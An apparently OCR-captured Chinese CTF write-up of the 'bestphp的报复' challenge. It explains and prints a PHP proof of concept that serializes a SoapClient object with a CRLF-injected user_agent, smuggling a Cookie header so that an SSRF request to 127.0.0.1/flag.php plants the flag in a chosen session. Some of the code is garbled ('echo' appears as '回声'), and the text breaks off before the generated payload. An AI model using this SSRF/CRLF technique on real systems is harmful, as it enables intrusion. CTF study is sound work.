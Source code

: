 ## `bestphp 的报复`

`bestphp的报复这道题利用的就是这个点，即对SoapClient类进行反序列化触发SSRF，并配合CRLF构造payload。`

`进入题目，提交源码：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084249.png)`

`扫描目录发现flag.php：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084250.png)`

`很明显当127.0.0.1时在会话中插入flag，就会得到flag。很明显要利用ssrf。`

`但是这里并没有明显的ssrf利用，所以我们认为PHP点类SoapClient触发反序列化导致SSRF，因为flag会被插入到会话中，所以我们就一定需要携带一个cookie即PHPSESSID去访问它来生成这个会话文件。`

`写出最后的POC：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7  
    

|

    
    
      
    $target = "http://127.0.0.1/flag.php" ;   
    $attack = new SoapClient( null , array ( 'location' => $target , 'user_agent' => "N0rth3ty\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4\r\n" , 'uri' => "123" )); $payload = urlencode(serialize( $attack )); 回声$payload ;  
          
          
      
       
      
  
---|---  
  
`  
`

`生成有效载荷：`
